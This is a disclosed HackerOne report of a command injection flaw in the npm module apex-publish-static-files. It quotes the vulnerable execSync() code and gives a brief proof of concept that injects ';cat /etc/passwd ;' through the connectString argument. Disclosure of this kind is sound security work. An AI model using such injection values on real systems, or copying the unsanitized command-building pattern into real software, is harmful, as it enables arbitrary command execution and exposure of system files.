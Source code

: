 # [apex-publish-static-files] Command Injection on connectString

## Report Details
- **Report ID**: 405694
- **URL**: https://hackerone.com/reports/405694
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-09-05T01:49:30.554Z
- **Disclosed**: 2018-10-18T18:32:08.981Z

## Reporter
- **Username**: abdilahrf_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a command injection vulnerability in the apex-publish-static-files npm module.
It allows arbitrary shell command execution through a maliciously crafted argument.

# Module

**module name:** apex-publish-static-files
**version:** 2.0.0
**npm page:** `https://www.npmjs.com/package/apex-publish-static-files`

## Module Description

>Uploads all files from a local directory to Oracle APEX

## Module Stats

15 downloads in the last day
~170 downloads in the last month

# Vulnerability

## Vulnerability Description

apex-publish-static-files does not sanitize the connectionString argument, and subsequently passes it to execSync(), thus allowing arbitrary shell command injection. 

Vulnerability Code : [https://github.com/vincentmorneau/apex-publish-static-files/blob/master/index.js#54-66](https://github.com/vincentmorneau/apex-publish-static-files/blob/master/index.js#54-66)

```
			const childProcess = execSync(
				'"' + opts.sqlclPath + '"' + // Sqlcl path
				' ' + opts.connectString + // Connect string (user/pass@server:port/sid)
				' @"' + path.resolve(__dirname, 'lib/script') + '"' + // Sql to execute
				' "' + path.resolve(__dirname, 'lib/distUpload.js') + '"' + // Param &1 (js to execute)
				' "' + path.resolve(opts.directory) + '"' + // Param &2
				' ' + opts.appID + // Param &3
				' "' + opts.destination + '"' + // Param &4
				' "' + opts.pluginName + '"' // Param &5
				, {
					encoding: 'utf8'
				}
			);
```


## Steps To Reproduce:

- npm i apex-publish-static-files
- create index.js file like this :

```
var publisher = require('apex-publish-static-files');
 
publisher.publish({
connectString: ";cat /etc/passwd ;",
    directory: "public",
    appID: 111
});
```
- execute `node index.js`

F342500

## Supporting Material/References:

OS: WSL Ubuntu 16.04
NODE: v10.8.0
NPM : 6.2.0


# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

It allows arbitrary shell command execution through a maliciously crafted argument.

## Attachments
- apex_rce.png
